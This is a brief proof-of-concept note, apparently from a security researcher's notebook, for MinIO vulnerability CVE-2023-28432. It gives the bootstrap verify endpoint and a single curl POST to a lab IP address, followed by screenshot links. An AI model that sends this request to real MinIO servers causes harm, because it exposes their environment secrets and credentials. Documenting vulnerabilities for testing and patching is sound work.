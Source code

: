 POC：

```html
POST:  /minio/bootstrap/v1/verify
```

```bash
curl -XPOST http://192.168.130.130:9000/minio/bootstrap/v1/verify
```

![image-20230801110209467](../_Attachment/minio-CVE2023-28432.assets/image-20230801110209467.png)

![image-20230801110215978](../_Attachment/minio-CVE2023-28432.assets/image-20230801110215978.png)
